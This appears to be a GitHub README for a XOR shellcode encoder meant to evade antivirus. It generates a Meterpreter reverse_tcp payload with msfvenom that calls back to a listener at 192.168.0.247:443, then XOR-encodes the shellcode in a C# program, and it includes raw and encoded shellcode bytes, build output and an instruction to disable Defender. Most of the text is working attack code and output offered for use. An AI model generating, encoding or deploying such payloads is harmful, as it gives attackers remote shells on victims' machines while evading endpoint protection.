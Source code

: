 ## Tested in Visual Studio 2019

Generate metasploit payload
```python
┌──(kali㉿kali)-[/tmp]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f csharp LHOST=192.168.0.247 LPORT=443 EXITFUNC=thread
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x48,0x31,
0xd2,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,
0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
```

Open XOR-Encoder.cs in visual Studio and paste in the shellcode here

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/174b751e-b5c9-4d9d-bee1-846659544001)

Change the key to XOR Encode the shellcode if you wish
```python
byte[] encoded = new byte[buffer.Length];
            for (int i = 0; i < buffer.Length; i++)
            {
                encoded[i] = (byte)((uint)buffer[i] ^ 25678998); //KEY
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            int totalCount = encoded.Length;
            for (int count = 0; count < totalCount; count++)
```

Turn off Defender on your dev machine as it will flag the raw metasploit shellcode and wont run the exe

Set to `Release` and `x64` (Change where necessary)

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/e3990de2-72e0-4106-8345-59b7372cb381)

Click Build > Build Solution

Build should happen with no errors

```python
Build started...
1>------ Build started: Project: XOR-Shellcode-Encoder, Configuration: Release x64 ------
1>  XOR-Shellcode-Encoder -> C:\Users\gd\Desktop\Custom Exploits\repos\XOR-Shellcode-Encoder\XOR-Shellcode-Encoder\bin\x64\Release\XOR-Shellcode-Encoder.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```

Navigate to the folder and run the .exe

You will get the XOR encoded shellcode

```python
PS C:\Users\gd\Desktop\Custom Exploits\repos\XOR-Shellcode-Encoder\XOR-Shellcode-Encoder\bin\x64\Release> .\XOR-Shellcode-Encoder.exe
XOR payload (key: 0xfa):
byte[] buf = new byte[511] {
0x6a, 0xde, 0x15, 0x72, 0x66, 0x7e, 0x5a, 0x96, 0x96, 0x96, 0xd7, 0xc7, 0xd7, 0xc6, 0xc4,
0xde, 0xa7, 0x44, 0xc7, 0xc0, 0xf3, 0xde, 0x1d, 0xc4, 0xf6, 0xde, 0x1d, 0xc4, 0x8e, 0xde,
0x1d, 0xc4, 0xb6, 0xde, 0x1d, 0xe4, 0xc6, 0xde, 0x99, 0x21, 0xdc, 0xdc, 0xdb, 0xa7, 0x5f,
0xde, 0xa7, 0x56, 0x3a, 0xaa, 0xf7, 0xea, 0x94, 0xba, 0xb6, 0xd7, 0x57, 0x5f, 0x9b, 0xd7,
0x97, 0x57, 0x74, 0x7b, 0xc4, 0xde, 0x1d, 0xc4, 0xb6, 0xd7, 0xc7, 0x1d, 0xd4, 0xaa, 0xde,
0x97, 0x46, 0xf0, 0x17, 0xee, 0x8e, 0x9d, 0x94, 0x99, 0x13, 0xe4, 0x96, 0x96, 0x96, 0x1d,
0x16, 0x1e, 0x96, 0x96, 0x96, 0xde, 0x13, 0x56, 0xe2, 0xf1, 0xde, 0x97, 0x46, 0xd2, 0x1d,
0xd6, 0xb6, 0x1d, 0xde, 0x8e, 0xdf, 0x97, 0x46, 0xc6, 0x75, 0xc0, 0xdb, 0xa7, 0x5f, 0xde,
0x69, 0x5f, 0xd7, 0x1d, 0xa2, 0x1e, 0xde, 0x97, 0x40, 0xde, 0xa7, 0x56, 0xd7, 0x57, 0x5f,
0x9b, 0x3a, 0xd7, 0x97, 0x57, 0xae, 0x76, 0xe3, 0x67, 0xda, 0x95, 0xda, 0xb2, 0x9e, 0xd3
```








